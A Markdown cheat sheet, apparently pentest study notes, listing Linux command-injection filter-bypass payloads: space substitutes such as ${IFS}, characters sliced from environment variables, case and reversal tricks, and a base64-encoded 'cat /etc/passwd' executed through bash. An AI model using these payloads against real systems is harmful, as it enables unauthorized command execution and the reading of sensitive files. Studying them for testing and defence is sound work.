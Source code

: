 
---

# Linux

## Filtered Character Bypass

|Code|Description|
|---|---|
|`printenv`|Can be used to view all environment variables|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`${IFS}`|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`)|
|`{ls,-la}`|Commas will be replaced with spaces|
|**Other Characters**||
|`${PATH:0:1}`|Will be replaced with `/`|
|`${LS_COLORS:10:1}`|Will be replaced with `;`|
|`$(tr '!-}' '"-~'<<<[)`|Shift character by one (`[` -> `\`)|

---

## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`$@` or `\`|Linux only|
|**Case Manipulation**||
|`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`|Execute command regardless of cases|
|`$(a="WhOaMi";printf %s "${a,,}")`|Another variation of the technique|
|**Reversed Commands**||
|`echo 'whoami' \| rev`|Reverse a string|
|`$(rev<<<'imaohw')`|Execute reversed command|
|**Encoded Commands**||
|`echo -n 'cat /etc/passwd \| grep 33' \| base64`|Encode a string with base64|
|`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`|Execute b64 encoded string|

---